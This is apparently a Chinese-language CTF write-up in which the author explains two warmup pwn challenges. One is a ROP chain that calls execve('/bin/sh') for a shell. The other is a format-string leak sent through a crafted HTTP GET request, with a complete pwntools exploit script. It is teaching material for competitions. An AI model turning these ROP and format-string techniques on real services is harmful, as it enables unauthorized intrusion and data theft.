





## Debug Myself

这道题的想法其实来源于今年 [CakeCTF-2023](https://2023.cakectf.com/tasks/1918350021/) 的一道 `warmup` 题目 **`vtable4b`**，题目中非常形象地展示了 C++ 函数虚表的数据结构。做题时就感觉这种题目非常友善并且能从中学到很多东西。于是这次比赛中我按照 [pwndbg](https://github.com/pwndbg/pwndbg) 的界面把主函数的栈帧结构给显示出来了，也在 gift 中给了一些 `ROP gadget` 的地址，对题目的定位也是 `pwn` 部分的 `warmup` 题。题目源码见题解仓库。

这道题目没有附件，可以直接开启容器并连接查看输出，输入 `help` 指令会出来一个命令菜单：



从设定上来说，这道题不需要选手编写利用脚本来解题，只需要通过 `stack` 指令查看栈布局，通过 `gift` 指令获取 **`pop rdi ; ret`** 等语句的地址，最后通过 `set` 指令完成栈上数据的布置就能 **getshell**：



这里构造的是：

```nasm
; SYS_execve("/bin/sh", 0, 0)
pop rdi;
ret; rdi = addr -> "/bin/sh\x00"
pop rsi;
ret; rsi = 0
pop rdx;
ret; rdx = 0
pop rax;
ret; rax = SYS_execve
syscall;
ret;
```

其中有两个需要注意的地方：

- rdi 作为第一个参数，应当指向存放 `“/bin/sh\x00”` 的地址而非字符串本身，这个字符串有很多种方法获取，其实最简单的一个方法是直接在输入中输 `/bin/sh` 再查看栈上数据找到这个地址。题解中用的方法是输入字符串的小端序表示的十六进制数到特定地址上，再把这个地址传给 rdi。其实还可以直接到程序的 libc 中找这个字符串，在此不多赘述。
- 64 位 intel 程序在进行系统调用时，系统调用号应该放在 rax 寄存器中，关于这个系统调用号表可以直接到 linux 源码中找到：[https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl)

---

# 小 Ne 的留言板

这是一道伪装成 Web 题的 Pwn，不过很好地被放在了 Pwn 分类下，预期解法是格式化字符串泄漏 `.bss` 段上的 flag 字符串，需要简单的脚本编写。题目源码见题解仓库。

题目提供了附件，对它进行简单的逆向工程可以发现它首先会监听本地的 31337 端口（比赛容器上则是动态端口，平台做了转发），然后会把 `flag` 作为 `secert_key` 读到全局变量上：





至于漏洞的发现，并不需要真的去逆向程序：

1. 题目描述：「但是页面上一直在跳出来奇怪的东西」
2. 随便构造一些输入（例如中文输入），界面上的信息就变成乱码了



再用 `checksec` 或 gdb 之类的工具看程序保护，发现是有地址随机化的，因此思路确定为：

发送三段 `payload`：

1. 先利用栈上残留信息得到程序基址偏移

```python
payload = get_payload(b"%16$p")
s(payload)
ru(b"DEBUG: ")
elf_base = int(io.recv(), 16) - 0x3272
lg("elf_base", elf_base)
```

2. 再把目标地址写到缓冲区里，调试定位缓冲区

```python
payload = get_payload(b"a" * 7 + p64(elf_base + 0x5040) * 3)
s(payload)
ru(b"DEBUG: ")
```

3. 最后用 `%s` 偷出 `secert_key`

```python
payload = get_payload(b"%97$s")
s(payload)
ru(b"DEBUG: ")
```

完整利用脚本如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
# set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

def get_payload(name):
    payload = b"GET /index.html?name=" + name
    payload += b" HTTP/1.1\n"
    payload += b"\n"
    return payload

# 跑三次，一次找基址，一次写 target，最后 %s

# payload = get_payload(b"%16$p")
# s(payload)
# ru(b"DEBUG: ")
# elf_base = int(io.recv(), 16) - 0x3272
# lg("elf_base", elf_base)

elf_base = 0x55EC502DC000

# payload = get_payload(b"a" * 7 + p64(elf_base + 0x5040) * 3)
# s(payload)
# ru(b"DEBUG: ")

payload = get_payload(b"%97$s")
s(payload)
ru(b"DEBUG: ")

ia()

"""
unused:

# canary = 0x1A8DD3A7FCD2CA00

# payload = get_payload(b"%12$p")
# s(payload)
# ru(b"DEBUG: ")
# canary = int(io.recv(), 16)
# lg("canary", canary)
"""
```
